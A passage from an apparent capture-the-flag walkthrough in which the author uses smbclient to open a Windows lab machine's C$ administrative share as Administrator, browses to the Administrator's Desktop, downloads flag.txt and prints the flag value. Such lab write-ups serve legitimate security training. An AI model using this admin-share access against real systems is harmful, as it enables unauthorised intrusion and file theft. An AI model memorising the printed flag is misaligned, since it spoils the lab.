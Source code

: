 But we can also access th `C$` share as well instead, which is the file system of the Windows machine.
After executing the `dir` command to look around on the C drive, we find the `Users` directory.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-lnh2wl9rnq]─[~]
	└──╼ [★]$ smbclient \\\\10.129.163.64\\C$ -U Administrator
	Password for [WORKGROUP\Administrator]:
	Try "help" to get a list of possible commands.
	smb: \> dir
	  $Recycle.Bin                      DHS        0  Wed Apr 21 10:23:49 2021
	  Config.Msi                        DHS        0  Wed Jul  7 13:04:56 2021
	  Documents and Settings          DHSrn        0  Wed Apr 21 10:17:12 2021
	  pagefile.sys                      AHS 738197504  Mon Sep 23 04:50:13 2024
	  PerfLogs                            D        0  Sat Sep 15 02:19:00 2018
	  Program Files                      DR        0  Wed Jul  7 13:04:24 2021
	  Program Files (x86)                 D        0  Wed Jul  7 13:03:38 2021
	  ProgramData                        DH        0  Tue Sep 13 11:27:53 2022
	  Recovery                         DHSn        0  Wed Apr 21 10:17:15 2021
	  System Volume Information         DHS        0  Wed Apr 21 10:34:04 2021
	  Users                              DR        0  Wed Apr 21 10:23:18 2021
	  Windows                             D        0  Wed Jul  7 13:05:23 2021
	
			3774463 blocks of size 4096. 1157853 blocks available

It's just a matter of sniffing around to finally locate the flag on the target machine:

	smb: \> cd Users\Administrator\Desktop\
	smb: \Users\Administrator\Desktop\> dir
	  .                                  DR        0  Thu Apr 22 02:16:03 2021
	  ..                                 DR        0  Thu Apr 22 02:16:03 2021
	  desktop.ini                       AHS      282  Wed Apr 21 10:23:32 2021
	  flag.txt                            A       32  Fri Apr 23 04:39:00 2021
	
			3774463 blocks of size 4096. 1158889 blocks available

In order to retrieve it, we can use the `get` command.
This will initialize a download with the output location being our last visited directory on our attacker VM at the point of running the `smbclient` tool.

	smb: \Users\Administrator\Desktop\> get flag.txt 
	getting file \Users\Administrator\Desktop\flag.txt of size 32 as flag.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
	smb: \Users\Administrator\Desktop\> ^C
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-lnh2wl9rnq]─[~]
	└──╼ [★]$ ls -la
	total 2389
	drwx------ 24 scrage scrage    4096 Sep 23 05:17 .
	drwxr-xr-x  5 root   root      4096 Sep 23 04:49 ..
	[ *** SNIP ***]
	-rw-r--r--  1 scrage scrage      32 Sep 23 05:17 flag.txt
	
	[ *** SNIP ***]
	
	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-lnh2wl9rnq]─[~]
	└──╼ [★]$ cat flag.txt 
	f751c19eda8f61ce81827e6930a1f40c
